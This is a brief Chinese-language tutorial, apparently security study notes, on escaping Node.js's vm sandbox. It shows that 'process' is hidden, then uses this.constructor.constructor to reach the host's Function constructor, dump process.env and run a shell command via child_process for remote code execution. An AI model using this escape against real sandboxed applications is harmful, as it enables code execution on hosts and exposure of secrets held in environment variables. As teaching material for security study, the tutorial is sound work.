


## vm沙箱逃逸

```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`let a = "welcome!";a;`);
console.log(xyz);
```

打印出

```
welcome
```

如果换成

```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`process`);
console.log(xyz);
```

结果：



因为 `process` 是没有定义的

但是我们可以通过这样来获取到系统的环境变量

```js
const vm = require("vm");
const env = vm.runInNewContext(`this.constructor.constructor('return this.process.env')()`);
console.log(env);
```

因为 `this` 指向了一个外部的对象，`this.conatructor` 指向的就是 Object 对象的 `Constructor` ， 而 `object constructor` 返回的就是 `Function constructor`

完成 RCE

```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('dir').toString()`);
console.log(xyz);
```


